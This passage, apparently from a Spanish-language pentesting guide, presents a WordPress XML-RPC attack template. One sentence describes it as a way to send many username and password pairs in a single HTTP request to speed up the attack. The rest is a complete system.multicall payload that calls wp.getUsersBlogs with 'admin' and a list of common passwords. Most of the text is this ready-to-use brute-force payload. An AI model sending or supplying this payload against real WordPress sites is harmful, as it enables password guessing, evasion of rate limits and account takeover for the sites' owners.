 Esta plantilla permite enviar múltiples combinaciones de usuario y contraseña **en una sola petición HTTP**, acelerando drásticamente el ataque.

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>system.multicall</methodName>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <struct>
                <member>
                  <name>methodName</name>
                  <value><string>wp.getUsersBlogs</string></value>
                </member>
                <member>
                  <name>params</name>
                  <value>
                    <array>
                      <data>
                        <value>
                          <array>
                            <data>
                              <value><string>admin</string></value>
                              <value><string>password123</string></value>
                            </data>
                          </array>
                        </value>
                        <value>
                          <array>
                            <data>
                              <value><string>admin</string></value>
                              <value><string>admin123</string></value>
                            </data>
                          </array>
                        </value>
                        <value>
                          <array>
                            <data>
                              <value><string>admin</string></value>
                              <value><string>qwerty</string></value>
                            </data>
                          </array>
                        </value>
                      </data>
                    </array>
                  </value>
                </member>
              </struct>
            </value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodCall>
```

